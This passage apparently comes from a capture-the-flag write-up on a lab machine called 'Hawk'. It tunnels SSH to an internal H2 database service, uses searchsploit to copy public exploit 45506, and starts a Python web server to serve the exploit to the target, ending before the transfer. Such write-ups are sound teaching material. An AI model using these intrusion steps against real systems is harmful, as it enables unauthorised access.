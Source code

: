 ```
ssh daniel@10.10.10.102 -L 8082:localhost:8082
```

Now we can view the service in firefox.

![h2firefox](/assets/img/hawk/hawk-h2-tunnel.png)



<h3>Searchsploit</h3>

A quick look for public exploits with searchsploit returns something we can use.

![searchsploit](/assets/img/hawk/hawk-searchsploit.png)


`searchsploit -m 45506` copies the selected one to the pwd.

We need to get this over to the target:
```
python3 -m http.server 80
```
